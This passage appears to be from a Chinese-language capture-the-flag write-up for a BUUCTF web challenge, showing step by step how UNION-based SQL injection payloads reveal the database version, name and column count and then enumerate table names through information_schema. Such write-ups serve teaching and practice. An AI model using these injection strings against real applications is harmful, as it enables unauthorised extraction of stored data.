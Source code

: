 成功登录了,不过这些信息也没什么用

接下来用`union`查询来爆一下数据库信息

```
31cae64d3b82c584b7611bf737473952' union select version(),database()#
```

<img src="/images/buuctf-web/image-20221014152047891-166704781973418.png" alt="image-20221014152047891" style="zoom:67%;" />

出错了,需要添加占位列,不确定位置的话就都尝试一下好了

```
1' union select 1,version(),database()#
```

<img src="/images/buuctf-web/image-20221014152122462-166704781973419.png" alt="image-20221014152122462" style="zoom:67%;" />

成功,说明有结果有三列,后两列会回显.

那么后面就简单了,接下来爆表名:

```
1' union select 1,2,group_concat(TABLE_NAME) from information_schema.tables where table_schema=database() limit 0,1#
```
